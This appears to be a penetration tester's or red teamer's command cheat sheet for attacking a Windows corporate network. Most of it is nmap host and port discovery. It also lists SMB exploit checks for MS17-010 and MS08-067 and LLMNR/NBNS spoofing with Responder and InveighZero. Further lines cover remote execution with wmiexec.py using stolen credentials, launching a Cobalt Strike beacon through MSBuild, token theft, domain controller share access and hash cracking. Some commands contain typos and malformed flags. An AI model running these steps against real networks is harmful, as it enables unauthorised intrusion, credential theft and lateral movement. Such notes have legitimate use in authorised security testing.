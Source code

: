 Initial Host Discovery
---------------------------------------------------------------
sudo nmap -oA live_hosts --stats-every 60s --log-errors --traceroute --reason --randomize-hosts -v -R -PE -PP -PM -PO -PU -PY 80,23,443,21,22,25,3389,110,445,139,53,135,3306,8080,1723,111,995,93,5900,1025,587,8888,199,1720,465,548,113,81,6001,10000,514,5060,179,1026,2000,8443,8000,32768,554,26,1433,49152,2001,515,8008,49154,1027,5666,646 -PA  80,23,443,21,22,25,3389,110,445,139,53,135,3306,8080,1723,111,995,93,5900,1025,587,8888,199,1720,465,548,113,81,6001,10000,514,5060,179,1026,2000,8443,8000,32768,554,26,1433,49152,2001,515,8008,49154,1027,5666,646 -sS -sV -p 21,22,23,25,80,443,445,8080,8443 -iL scope.txt

SMB Common Vuln Checks
---------------------------------------------------------------
--script smb-vuln-ms17-010
--script smb-vuln-ms08-067

Additional Host Discovery - Recheck
---------------------------------------------------------------

nmap -sP -PA21,22,25,3389 192.168.2.1/24 
sudo nmap -sP -PS22,3389 192.168.2.1/24 
sudo nmap -sP -PU161 192.168.2.1/24 

Host Discovery of 6 most common ports
---------------------------------------------------------------.
sudo nmap -sP -PS21,22,80,139,445,3389

Fast Live host discovery trick (checks only .1 on subnet):
---------------------------------------------------------------
sudo nmap -sn 10.0-255.0-255.1 -PE —min-hostgroup 10000 —min-rate 10000
(Then do normal fast discovery on confirmed subnet)
Discover banners:
    curl -head ip or hostname

NMAP ping sweep:
----------------------------------------------
sudo nmap -sn -iL discovery/ranges.txt -oA discovery/hosts/pingsweep -PE

NMAP quick RMI discovery scan:
-------------------------------------------
nmap -Pn -n -p 22,80,443,3389,2222 -iL discovery/ranges.txt  -oA discovery/hosts/rmisweep —min-hostgroup 256 —min-rate 1280

Cut results from RMI scan to 'Open' ports: cat discovery/hosts/rmisweep.gnmap |grep open | cut -d " " -f2

NMAP common port scan:
--------------------------------------------------------------------------
nmap -Pn -n -p 22,25,53,80,443,445,1433,3306,3389,5800,5900,8080,8443  -iL hosts/targets.txt -oA services/quick-sweep

NMAP Scan all ports:
---------------------------
nmap -Pn -n -iL targets.txt -p 0-65535 -sV -A -O -oA filename -min-rate 50000 min-hostgroup 22

To find out which NMAP .NSE script ran from above:
--------------------------------------------------
cat services/full-sweep.nmap |grep '|_' | cut -d '_' -f2 | cut -d ' ' -f1 | sort -u | grep ':'
for just HTTP targets: cat full-sweep.nmap | grep -i http-title

Common RCE Ports
---------------------------------------------------------------
nmap -oA commonRCE -iL live_hosts.txt -p 1090,1098,1099,4444,11099,47001,47002,10999,7000-7004,8000-8003,9000-9003,9503,7070,7071,45000,45001,8686,9012,50500,4848,11111,4445,4786,5555,5556 --open

Common Web Ports
---------------------------------------------------------------
nmap -p 80,443,8443,8080,8081,8444,8000,8100,8082,8001,8002,8500,8888,9000,8200,9000,8200,8008,8181,8900,8009 -iL live_hosts.txt -oA common_web_ports --open

Using Aquatone to visualize
---------------------------------------------------------------
cat common_web_ports.xml | .\aquatone.exe -nmap -chrome-path "C:\Program Files\Google\Chrome\Application\Chomre.exe" -out C:\Users\Magic\Desktop\aquatone

InveighZero
---------------------------------------------------------------
C# man-in-the-middle spoof LLMNR,NBNS,mDNS,DNS, and DHCPv6.

responder
---------------------------------------------------------------
sudo /usr/sbin/responder -I eth0

Bloodhound
---------------------------------------------------------------
Check unrolled RDP rights for all compromised users

Remote Interaction
---------------------------------------------------------------
python3 wmiexec.py domain/user:password@remotecompany.corp.com

Cobalt Strike Beacon.
---------------------------------------------------------------
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild msbuild_x64.xml

From cobalt strike:
execute-assembly 

steal token of process running as other user
steal_token *first######*

shell dir \\domaincontroller.comp.com\C$

Check for AutoLogon Files
---------------------------------------------------------------

Credninja to test if compromised credentials have local administrator rights

Check egress
---------------------------------------------------------------
Egress-Access
Cobalt strike

hashcracking
---------------------------------------------------------------
GoCrack
